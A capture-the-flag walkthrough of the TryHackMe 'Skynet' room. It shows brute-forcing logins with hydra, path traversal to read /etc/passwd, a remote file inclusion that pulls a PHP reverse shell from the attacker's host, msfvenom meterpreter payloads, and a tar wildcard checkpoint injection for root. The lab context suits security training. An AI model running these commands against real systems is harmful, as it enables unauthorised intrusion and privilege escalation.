


*2021-08-29*

*kimm3*

# Walkthrough: Skynet
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/skynet)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup


```
script history
export IP=10.10.158.105
ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`


Web, email, smb/samba and ssh.


Index page. Url does not change when you search.

`smbclient -N -L $IP | tee scans/smblist.txt`


```
cd foundfiles
smget -R smb://$IP/anonymous
smbget -R smb://$IP/milesdyson
```


Three logfiles downloaded.


Two of them empty. One containing possible credentials.

`hydra -l milesdyson -P foundfiles/logs/log1.txt $IP smb | tee scans/smb-milesdyson-log1.txt`


Noop, let's move on.

`ffuf -u "http://10.10.158.105/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-index-dir`




```
hydra -l milesdyson -P foundfiles/logs/log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." | tee scans/hydra-squirrel-login.txt
```

I used the login page and not the 'redirect.php' page at first, which didn't work.


Convenient.


Weird.

Using the smb password to retrieve files:

`smbget -R -U milesdyson smb://$IP/milesdyson`


Inside notes/important.txt:


`ffuf -u "http://10.10.158.105/45kra24zxs28v3yd/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-miles-dir`


## Foothold/Exploit
There's a local and remote file inclusion vulnerability for cuppa[(link)](https://www.exploit-db.com/exploits/25971). In the example below we can view '/etc/passwd'.

`http://10.10.158.105/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`


We can retrieve a php file with this and run it.

```
cp tools/php-reverse-shell.php upload/myshell.php
#change ip
vim upload/myshell.php

nc -lvnp 1234
python3 -m http.server 80

curl "http://10.10.158.105/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.210.115/myshell.php?"
```


We can 'su milesdyson' from here with the same password as before - so we have access to two users.
### Shell to meterpreter
Instead of transfering another file, let's use the exact sam technique but with at meterpreter php file.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.8.210.115 -f raw -o upload/merp.php

script history/target2
msfconsole
use exploit/multi/handler
set payload
set LHOST
set LPORT
run

nc -lvnp 4444

cd upload
python3 -m http.server 80

curl "http://10.10.238.20/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.210.115/merp.php?"
```


## Privilege Escalation
Started out with a linPEAS search.


There's a cron job running every minute as root, that runs a script in milesdysons home folder.


It changes directory and runs tar with a wildcard as argument.

Follow this [link](https://www.exploit-db.com/papers/33930) to read about wildcard abuse in *nix systems.

Tar can execute commands while running as checkpoints, [link.](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html#checkpoints)

On PayloadsAllTheThings [github](https://github.com/cyberheartmi9/PayloadsAllTheThings/blob/master/Tar%20commands%20execution/README.md) there's also an example.

Let's try to use this on our local machine first.

`tar -cf test.tar symlinks.sh --checkpoint=1 --checkpoint-action=exec="echo hej"`


Now let's try this with files as arguments and a wildcard in the command.
```
mkdir tmp/test
cd tmp/test
touch test1 test2 test3

echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=echo hej'

tar -cf t.tar *
```


```
rm ./--checkpoint-action=exec=echo\ hej
echo "" > '--checkpoint-action=exec=sh'
```
We should enter /bin/sh as we run the tar command again.


I also generated a meterpreter file and made sure I could this on my own machine before trying on target.


Let's try this at target. Lucky for us, the folder that the command runs in is owned by www-data.

```
#local
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.8.210.115 LPORT=4343 -f elf -o upload/merp.elf

#target
nc -lp 4321 > merp.elf
echo "/var/www/html/merp.elf" > shell

echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh shell'
```




